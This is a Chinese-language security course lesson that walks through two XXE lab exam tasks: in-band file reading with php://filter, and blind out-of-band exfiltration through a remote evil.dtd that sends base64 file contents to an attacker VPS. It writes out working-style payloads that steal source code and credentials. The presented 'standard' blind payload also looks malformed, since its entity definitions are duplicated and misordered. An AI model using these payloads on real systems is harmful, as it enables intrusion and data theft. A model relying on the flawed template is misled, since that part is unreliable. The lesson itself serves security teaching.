# 课程P35：第33天 - XXE漏洞实战考核讲解 🔍


在本节课中，我们将详细讲解第33天的课程考核内容，主要围绕两道XXE（XML外部实体注入）漏洞实战题目展开。我们将分析解题思路，指出常见错误，并总结核心知识点。

---

## 概述 📋




本节课旨在回顾和巩固XXE漏洞的知识，特别是**有回显**和**无回显**两种场景下的利用方法。我们将通过分析学员提交的解题过程，梳理正确的攻击流程，并纠正常见的配置与理解错误。




上一节我们介绍了XXE的基本原理，本节中我们来看看如何在实际靶场中应用这些知识。



---






## 第一题：有回显XXE漏洞利用 ✅

第一道题目是一个典型的有回显XXE漏洞场景。攻击目标是读取服务器上的 `do_login1.php` 文件，获取其中的账户密码信息。



### 解题步骤



以下是利用有回显XXE读取文件的标准流程：




1.  **抓包与探测**：首先使用Burp Suite等工具拦截登录请求的数据包。尝试修改`username`字段的值，观察响应包中是否有对应的回显，以此判断是否存在XXE漏洞。
2.  **引入外部实体**：确认漏洞存在后，构造Payload引入一个外部实体。例如，使用在线平台（如ceye.io）提供的DTD地址进行测试，观察该平台是否收到请求，以验证外部实体加载成功。
    ```xml
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://your-ceye-address.ceye.io"> ]>
    <user><username>&xxe;</username><password>123</password></user>
    ```
3.  **读取目标文件**：利用`php://filter`协议读取`do_login1.php`文件的内容。由于响应会直接回显，我们可以从响应中获取编码后的文件内容。
    ```xml
    <!DOCTYPE test [
      <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=do_login1.php">
    ]>
    <user><username>&xxe;</username><password>123</password></user>
    ```
4.  **解码与获取凭证**：将响应中返回的Base64编码字符串进行解码，即可得到`do_login1.php`的源代码，从中找到登录的用户名和密码。


**核心要点**：在有回显的场景下，攻击流程直接，可以通过响应包直接获取数据。




---


## 第二题：无回显XXE漏洞利用 🔄

第二道题目是无回显场景。服务器在处理XML后，仅返回一个表示成功或失败的代码（如0或1），不会在响应中直接输出文件内容。

上一节我们介绍了有回显的利用，本节中我们来看看无回显场景下如何通过“带外”（Out-of-Band）技术将数据外带。

### 解题思路与常见问题

无回显XXE的核心思路是：让服务器去访问一个由攻击者控制的Web服务器，并将目标文件的内容作为URL参数的一部分带出。攻击者通过查看自己服务器的访问日志来获取数据。

以下是学员在解题时常遇到的几个问题：




1.  **DTD文件存放位置错误**：用于定义恶意实体的DTD文件必须存放在一个**公网可访问**的服务器上（例如VPS），并确保靶场服务器能够通过URL访问到它。常见的错误是将DTD放在本地或靶场服务器的根目录下，但未配置公网访问。
2.  **Payload构造错误**：无回显利用的Payload结构更为复杂，通常涉及多层参数实体的嵌套调用。一个典型的错误是实体调用顺序错误或语法错误（如缺少分号、错误的实体类型）。
3.  **日志查看位置错误**：数据被外带到攻击者的服务器后，需要查看该服务器的Web访问日志（如Apache的`access.log`）来获取编码后的文件内容。有学员误去查看靶场服务器的日志。

### 标准Payload结构分析

一个典型的无回显XXE利用Payload由两部分组成：




**第一部分：主Payload（发送给靶场）**
```xml
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://your-vps-ip/evil.dtd">
    %remote;
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=do_login2.php">
    <!ENTITY % send SYSTEM "http://your-vps-ip/?data=%file;">
    %send;
]>
<user><username>test</username><password>test</password></user>
```
*   `%remote;`：引入外部DTD文件。
*   `%file;`：定义参数实体，用于读取并编码目标文件。
*   `%send;`：定义参数实体，用于向攻击者服务器发起携带数据的HTTP请求。


**第二部分：外部DTD文件（`evil.dtd`，存放在攻击者VPS上）**
```xml
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://your-vps-ip/?data=%file;'>">
%all;
```
*   此DTD定义了如何将`%file;`实体的内容拼接到请求URL中。

**执行流程**：靶场服务器解析主Payload → 加载远程`evil.dtd` → 执行`evil.dtd`中的定义 → 向`http://your-vps-ip/?data=[base64-data]`发起请求 → 攻击者在VPS的访问日志中查看`data`参数的值 → 解码获得文件内容。

---

## 总结与要点回顾 🎯


本节课中我们一起学习了XXE漏洞在两种不同场景下的实战利用：

1.  **有回显XXE**：利用流程直接，通过构造读取文件的Payload，可直接从响应中获取Base64编码的数据，解码后得到敏感信息。
2.  **无回显XXE**：利用流程较为复杂，需要准备公网可访问的服务器来托管DTD文件，并通过构造嵌套的参数实体，将数据外带到攻击者服务器的访问日志中。



**核心公式**可以概括为：
*   **有回显**：`漏洞点 + 文件读取Payload = 直接回显数据`
*   **无回显**：`漏洞点 + 远程DTD + 数据外带Payload + 日志查看 = 间接获取数据`


希望本次讲解能帮助大家理清XXE漏洞的利用思路。如果在后续实践中遇到问题，可以回顾本教程中的步骤与要点。